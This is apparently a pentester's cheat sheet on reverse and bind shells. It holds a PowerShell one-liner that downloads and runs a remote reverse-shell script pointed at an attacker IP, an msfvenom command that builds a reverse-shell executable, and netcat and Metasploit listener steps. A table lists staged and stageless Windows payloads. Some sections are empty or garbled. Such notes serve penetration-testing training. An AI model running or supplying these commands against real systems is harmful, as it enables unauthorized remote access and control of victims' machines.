


Reverse/Bind shells
Resources:•
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet•
https://highon.coffee/blog/reverse-shell-cheat-sheet/•
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python <---
Powershell Reverse Shells
Windows Target:
PS> IEX(New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1 "); Invoke-PowerShellTcp -Reverse -IPAddress <attackerIp> -Port 53 With this method consider that the
traffic is traversing the wire in cleartext between attacker and target.
Linux Attacker:
Msfvenom Reverse Shells
•
Staged payloads: <platform>/[architecture]?/<stage>/<stager>
Use "tiny stagers" to fit into small exploitation spaces and use them to pull the rest of the payload.
With a
netcat listener, the stager fails to pull the rest of the payload. We need to use exploit/multi/handler in Metasploit to catch shells
• Stageless/Unstaged payloads: <platform>/[architecture]?/<single>
"inline payloads" are self-contained, no stager and more stable.
They are typically larger in size that the standard staged payloads, this because they include a payload within the binary, rather than being “pushed” to the target system via the handler(like metasploit) once a connection is established
More in depth explanation about Staged vs Stageless payloads:
https://buffered.io/posts/staged-vs-stageless-handlers/Payloads for target Windows| Payload | Staged (metasploit -->meterpreter) | Staged (metasploit --> cmd) | Stageless (metasploit --> meterpreter) | Stageless (netcat) |
|---|
| Reverse TCP | x86 --> windows/meterpreter/reverse_tcp
x64 --> windows/x64/meterpreter/reverse_tcp | x86 --> windows/shell/reverse_tcp
x64 --> windows/x64/shell/reverse_tcp | x86 --> windows/meterpreter_reverse_tcp
x64 --> windows/x64/meterpreter_reverse_tcp | x86 --> windows/shell_reverse_tcp
x64 -->windows/x64/shell_reverse_tcp |
| Reverse HTTPS | x86 --> windows/meterpreter/reverse_https
x64 --> windows/x64/meterpreter/reverse_https | | x86 --> windows/meterpreter_reverse_https
x64 --> windows/x64/meterpreter_reverse_https | |
| Bind TCP | x86 --> windows/meterpreter/bind_tcp
x64 --> windows/x64/meterpreter/bind_tcp | x86 --> windows/shell/bind_tcp
x64 --> windows/x64/shell/bind_tcp | x86 --> windows/meterpreter_bind_tcp
x64 --> windows/x64/meterpreter_bind_tcp | x86 --> windows/shell_bind_tcp
x64 --> windows/x64/shell_bind_tcp |
| Reverse TCP IPv6 | x86 --> windows/meterpreter/reverse_ipv6_tcp | x86 --> windows/shell/reverse_ipv6_tcp | x86 --> windows/meterpreter_reverse_ipv6_tcp
x64 --> windows/x64/meterpreter_reverse_ipv6_tcp | |
Payloads in Linux...
Reverse TCP payload : Stageless (netcat)msfvenom payload:
msfvenom -a x86 -p windows/shell_reverse_tcp lhost=172.16.5.40 lport=4444 -f exe -o shell.exe
Listener:
root@kali:/# nc -vlp [port number]
d( Metasploit → cmd)
windows/shell/reverse_tcp
msfconsole
msf> use exploit/multi/handler
msf> set payload windows/shell/reverse_tcp
msf> set lhost 0.0.0.0
msf> set lport <port>
msf> run
msfvenom on the payload, Bind(listen) on the port:
Connect to the target:
nc -v 192.168.147.136 4321
Bibliography:
https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/